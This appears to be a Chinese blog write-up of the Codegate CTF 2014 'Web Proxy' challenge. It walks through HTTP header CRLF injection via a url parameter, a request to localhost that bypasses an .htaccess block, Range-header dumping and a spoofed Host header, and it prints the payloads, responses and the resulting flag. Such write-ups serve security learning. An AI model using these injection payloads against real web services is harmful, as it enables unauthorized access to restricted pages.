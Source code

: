 title: Codegate CTF Preliminary 2014 200 Web Proxy
date: 2014-2-26 2:24
category: web
tags: CodegateCTF, CRLF
slug: codegate_web_200_web_proxy

這題被 **orange** 秒殺了  
我是賽後才解出來的 Orz  
* * *  
  
網址點開是一個 proxy 頁面  
在 input form 輸入網址後  
會將網頁的部分內容和 header 印出來  

打開 source code 可以看到註解有提示  
*<!-- admin/index.php -->*  
嘗試用 proxy load 頁面看看:  
`http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/index.php`  
> 403 Forbidden  

這題的方向應該很明確了  
透過 proxy 去存取 `admin.php`  
題目的環境是 **apache**  
應該是透過 `.htaccess` 去擋的  
不過似乎沒辦法拿到設定  

先隨便跳轉一個網頁  
`http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=www.google.com`  
會發現 proxy 是透過參數 `url` 決定轉址頁面  
猜測是透過 `header('Location:'+ $url);` 去做轉址  
如果 `$url` 沒有做過濾  
會有 **HTTP header CRLF injection**  
試試看猜測是否正確:  
```
http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=www.google.com%2f   
HTTP/1.1%0d%0a  
Host: 123%0d%0a  
%0d%0a  
```
> ...  
> Date: Tue, 25 Feb 2014 19:00:30 GMT  
> Server: gws  
> Content-Length: 261  
> X-XSS-Protection: 1; mode=block  

喔喔 看起來有反應  
還意外發現 google 的 **XSS protect** XD  
這邊我們可以偽造 header 竄改來源了  
但是網站好像有做過濾  
只要包含 `58.229.183.24` 都會被擋下來  
顯示 *Access Denied*  
改嘗試從 **localhost** 去連頁面:  
`url=localhost/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/`  
> HTTP/1.1 200 OK  
> Date: Tue, 25 Feb 2014 18:49:08 GMT  
> Server: Apache/2.4.6 (Ubuntu)  

如此就繞過 `.htaccess` 的限制了 lol  
由於這個 proxy 只會顯示網頁的部分內容  
在 header 加入 `Range` 可以控制顯示內容範圍  
```  
Host: 123%0d%0a  
Range: bytes=0-100%0d%0a  
%0d%0a  
```  

慢慢dump內容，結果發現...  
> Access Denied  
> \<br> 100  

好吧 看來 code 可能也是有做些存取限制  
嘗試改成 `Host: localhost`  
... fail again  
在這邊卡關了一陣子  
決定還是慢慢把全部內容 dump 出來  
結果發現這一段...  
> $\_SERVER[HTTP_HOST]=="hackme")-->\</body>  
> <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">  

所以改成 `Host: hackme`  
這題就過了  
> hello admin\<br>  
> Password is WH0_IS_SnUS_bI1G_F4N  

flag: `WH0_IS_SnUS_bI1G_F4N`  
